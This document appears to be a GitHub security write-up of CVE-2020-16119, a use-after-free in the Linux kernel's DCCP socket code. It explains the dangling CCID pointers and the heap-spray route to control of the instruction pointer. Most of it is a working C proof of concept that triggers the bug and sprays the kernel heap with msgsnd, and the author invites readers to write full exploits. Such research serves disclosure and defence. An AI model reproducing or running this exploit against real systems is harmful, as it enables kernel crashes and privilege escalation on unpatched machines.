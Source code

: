 # CVE-2020-16119

## Background
Datagram Congestion Control Protocol (DCCP) is an unreliable, connection
oriented protocol designed to solve issues present in UDP and TCP, particularly
for real-time and multimedia (streaming) traffic.
It divides into a base protocol and pluggable congestion control
modules called CCIDs. Like pluggable TCP congestion control, at least one CCID
needs to be enabled in order for the protocol to function properly. In the Linux
implementation, this is the TCP-like CCID2. Additional CCIDs, such as
the TCP-friendly CCID3, are optional.

In recent months I have researched and reviewed various parts of the Linux kernel networking subsystem. In this time, I have come across a use-after-free vulnerability in the DCCP component of the latest kernel release (5.8.10).

## How Does the UAF Happen?
First, let's understand how the UAF occurrs in the first place. Here's a breakdown:

We create a socket with type ```SOCK_DCCP``` and protocol ```IPPROTO_IP```:
```c
socket(AF_INET6,SOCK_DCCP,IPPROTO_IP);
```
Then, we call ```listen()``` on the resulting socket. The socket object is now in the DCCP_LISTEN state.
Behind the scenes, when the socket is put in said state, ```dccp_create_openreq_child()``` is called:

```c
struct sock *dccp_create_openreq_child(struct sock *sk,
				       const struct request_sock *req,
				       const struct sk_buff *skb)
{
	struct sock *newsk = inet_csk_clone_lock(sk, req, GFP_ATOMIC);
	if (newsk != NULL) {
		struct dccp_request_sock *dreq = dccp_rsk(req);
		struct inet_connection_sock *newicsk = inet_csk(newsk);
		struct dccp_sock *newdp = dccp_sk(newsk);
		newdp->dccps_role	    = DCCP_ROLE_SERVER;
		newdp->dccps_hc_rx_ackvec   = NULL;
		newdp->dccps_service_list   = NULL;
    ...
}
```

We can see in ```dccp_create_openreq_child``` that the initial socket object is being cloned[1].
Note that when ```inet_csk_clone_lock()``` is called, dccps_hc_rx_ccid and dccps_hc_tx_ccid are copied.

If one of the socket objects is disconnected or closed, it
frees dccps_hc_rx_ccid/dccps_hc_tx_ccid and provides us a dangling pointer in the other socket object.

To make one of our socket objects disconnect, we can call ```connect()``` on it with AF_UNSPEC, and it will "free" our socket via ```dccp_disconnect()```.
```dccp_disconnect()``` sets the socket state to DCCP_CLOSED, and *doesn't* free and assign NULL to
dccps_hc_rx_ccid and dccps_hc_tx_ccid.

Then, we need to call ```connect()``` on a new socket with the same type and protocol as the first one.
After that, we call ```listen()``` on our new socket so our new socket object will get cloned with ```dccp_create_openreq_child()```.
```dccp_create_openreq_child()``` will create a new socket object thats holds the dangling pointers of dccps_hc_rx_ccid/dccps_hc_tx_ccid.
This leads to the old socket and the new socket holding the same pointers to dccps_hc_rx_ccid/dccps_hc_tx_ccid.

## Escalation to RCE
If we want to get arbitrary code execution with our dangling pointer (the freed object that we are using after we free ;D ), we have to dereference the dangling pointer 
with close/getsockopt. For example,

```ccid_hc_tx_delete``` is the function that is responsible for freeing dccps_hc_rx_ccid/dccps_hc_tx_ccid:

```c
void ccid_hc_tx_delete(struct ccid *ccid, struct sock *sk)
{
	if (ccid != NULL) {
		if (ccid->ccid_ops->ccid_hc_tx_exit != NULL)
			ccid->ccid_ops->ccid_hc_tx_exit(sk);      
		kmem_cache_free(ccid->ccid_ops->ccid_hc_tx_slab, ccid);
	}
}
```
We can see that this line: ```ccid->ccid_ops->ccid_hc_tx_exit(sk);``` is calling a function pointer.
When this function is called for the first time (when the ```connect()``` with AF_UNSPEC is called), it is harmless and simply does cleanup.
However, when it is called the second time (when we actually ```close()``` and control the dangling pointer), it can call an arbitrary address specified by us.
In order to exploit this and get IP control, we have to heap-spray the kernel.
I used the msgsnd syscall to heap-spray the kernel. If you like, you can use other methods if you like.

### **Challenge**: 
write your own exploits for this UAF, in the same method i did or with another heap-spray technique. If you do, please share them with me! (@ManorHadar)

POC:
```c

/*
CVE-2020-16119
POC by @ManorHadar
(Feel free to share your exploits for this CVE with me!)
*/

#define _GNU_SOURCE
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <sys/syscall.h>
#include <netinet/in.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <pthread.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <sys/ipc.h>
#include <sys/shm.h>



int fd1,fd2;
struct sockaddr_in6 sk1,sk2;
#define BUFF_SIZE 64

void heap_spray();

int trigger_uaf()
{
  struct sockaddr_in6 csk1,csk2;
  struct sockaddr_in6 csk3;
  struct sockaddr_in6 csk4;
  
  fd1 = socket(AF_INET6,SOCK_DCCP,IPPROTO_IP);

  memset(&sk1,0,sizeof(sk1));
  sk1.sin6_family = AF_INET6;
  sk1.sin6_addr = in6addr_loopback;
  sk1.sin6_port = 0x214e;
  bind(fd1,(struct sockaddr*)&sk1,sizeof(sk1));

  listen(fd1,0x1); //DCCP_LISTEN

  fd2 = socket(AF_INET6, SOCK_DCCP, IPPROTO_IP);

  memset(&csk1,0,sizeof(csk1));
  csk1.sin6_family = AF_INET6;
  csk1.sin6_addr = in6addr_loopback;
  csk1.sin6_port = 0x214e;
  csk1.sin6_flowinfo = 0;
  connect(fd2,(struct sockaddr*)&csk1,sizeof(csk1));

  memset(&csk2,0,sizeof(csk2));
  // calling connect with AF_UNSPEC (free)
  connect(fd1,(struct sockaddr*)&csk2,sizeof(csk2));
  memset(&sk2,0,sizeof(sk2));

  heap_spray();

  sk2.sin6_family = AF_INET6;
  sk2.sin6_addr = in6addr_loopback;
  sk2.sin6_port = htons(0x2000);
  sk2.sin6_flowinfo = 0x2;
  sk2.sin6_scope_id = 6;
  bind(fd2,(struct sockaddr*)&sk2,sizeof(sk2));

  memset(&csk3,0,sizeof(csk3));
  connect(fd2,(struct sockaddr*)&csk3,sizeof(csk3));

  listen(fd2,0xb1);

  memset(&csk4,0,sizeof(csk4));
  csk4.sin6_family = AF_INET6;
  csk4.sin6_port = htons(0x2000);
  memset(&csk4.sin6_addr,0,sizeof(struct in6_addr));
  csk4.sin6_flowinfo = 1;
  csk4.sin6_scope_id = 0x32f1;
  connect(fd1,(struct sockaddr*)&csk4,sizeof(csk4));
  socket(AF_INET,SOCK_STREAM,0);
  close(fd2);
  return fd2;
}

void heap_spray()
{
	printf("Spraying the Heap");
     struct {
        long mtype;
        char mtext[BUFF_SIZE];
    }msg;
   memset(msg.mtext, 0x41, BUFF_SIZE-1);
   msg.mtext[BUFF_SIZE] = 0;
   int msqid = msgget(IPC_PRIVATE, 0644 | IPC_CREAT);
   msg.mtype = 1; // mtype must be > 0 
   for(int i = 0; i < 240; i++)
        msgsnd(msqid, &msg, sizeof(msg.mtext), 0);
}

int main(void)
{
  printf("Triggering the Use-After-Free");
  trigger_uaf();
  return 0;
}
```
